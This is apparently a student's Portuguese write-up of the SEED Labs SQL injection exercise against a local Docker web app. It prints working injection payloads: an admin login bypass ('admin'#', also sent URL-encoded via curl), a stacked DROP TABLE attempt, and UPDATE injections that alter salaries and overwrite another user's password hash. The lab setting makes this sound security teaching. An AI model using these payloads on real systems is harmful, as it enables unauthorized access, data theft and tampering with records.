 # SQL Injection Attack LAB

## Setup

Para começar a realizar este lab começamos por adicionar uma nova entrada nos hosts conhecidos pela máquina virtual, <b>www.seed-server.com</b>, <b>sudo nano etc/hosts</b> e adicionando <b>10.9.0.5 www.seed-server.com</b>. Depois, executamos os containers usando <b>dcbuild</b> <b<#docker-compose build</b> e <b>dcup</b> <b< #docker-compose up</b>. Por último executamos <b>mysql -u root -pdees</b> e <b>use sqllab_users</b> para executar como superuser e selecionar o schema.


## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice"

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtendo estes dados:

![Alt text](image-12.png)


###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Exploramos o site <b> "www.seed-server.com" </b> disponibilizado pelo Docker, assim como o ficheiro <b>unsafe_home.php</b>. Visualizamos que a query era frágil uma vez que o servidor vai criar dinamicamente o comando com as strings não sanitizadas provenientes do input do utilizador.

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’
```
Assim, conseguimos realizar o login na conta do admin, obtendo assim todos os dados dos usuários.

![Alt text](image-13.png)

#### Task 2.2 - Login in adminstrator mode from command line

Realizamos o mesmo tipo de ataque usando um pedido GET através do comando:

```bash
curl "www.seed-server.com/unsafe_home.php?username=user&Password=pass"
```

Usando o mesmo input da tarefa anterior, mas com a codificação URL (%27 = ' e %23 = #), geramos o comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Isso deu-nos acesso ao HTML da página contendo informações pessoais dos usuários.



#### Task 2.3 - Append a new SQL statement

Adicionamos comandos SQL usando ";". Tentamos, por exemplo, excluir a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

Mas a operação falhou devido a uma proteção na extensão MySQL usada pelo PHP do servidor, que impede múltiplas queries.

![Alt text](image-14.png)



### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Depois de logar com uma conta do sistema (por exemplo, username = Alice, password = alice1), acessamos uma página de edição de dados que é gerida a partir do ficheiro disponibilizado <b<unsafe_edit_backend.php</b>. Usamos o campo "phone number" para manipular o salário:

```sql
910123125',Salary='1111111
```

Isso resultou na execução da seguinte instrução SQL, que também alterou o salário:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='1111111' WHERE ID=$id;
```

Assim, a variável salário foi alterada para o valor escolhido.


#### Task 3.2 - Modify other people’ salary

Para mudar o salário de outro usuário, criamos uma nova cláusula WHERE. Desta maneira, comentamos a que estava no sistema para não interferir na pesquisa.

```sql
910123125',Salary='-111' WHERE Name='Boby'#
```

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='-111' WHERE Name='Boby'# WHERE ID=$id;
```
Alterando assim o salário do Boby.

#### Task 3.3 - Modify other people’ password

Para mudar a senha de outro usuário, ciframos a nova senha com SHA1. Por exemplo, para a senha <b>teste</b>, o hash é <b>2e6f9b0d5885b6010f9167787445617f553a735f</b>.

```sql
910123124', password='2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125', password='2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby'# WHERE ID=$id;
```

E assim conseguimos entrar com sucesso na conta do Boby.
